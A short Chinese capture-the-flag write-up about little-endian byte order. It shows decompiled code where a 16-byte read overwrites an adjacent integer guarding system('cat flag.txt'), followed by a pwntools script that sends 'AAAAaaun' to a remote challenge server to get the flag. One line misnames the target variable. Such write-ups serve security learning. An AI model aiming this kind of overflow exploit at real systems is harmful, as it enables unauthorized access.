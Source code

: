 在大多数处理器上使用小端法表示整数，比如0x12345678在内存中的存储是0x78563412，而大端法表示的整数就是按0x12345678的顺序来存储这4个字节。

1、在IDA中读取主函数时发现
read(0,&unk_601068,0x10uLL);
if(dword_60106c == 1853186401)
    sub_400686(0LL,&unk_601068)
其中sub_400686(0LL,&unk_601068)函数会调用system("cat flag.txt")函数，可以拿到flag
因此我们只需要让dword_601068等于1853186401就可以成功夺旗
再次观察，发现unk_601068与dword_60106c只差4个字节，因此我们可以在读入时修改，即可执行。













#!/usr/bin/env python
# coding=utf-8
from pwn import *
r = remote('111.198.29.45',44687)
a = r.recvuntil('f\n')
print(a)
r.send('AAAAaaun')
flag = r.recvuntil('\n')
print(flag)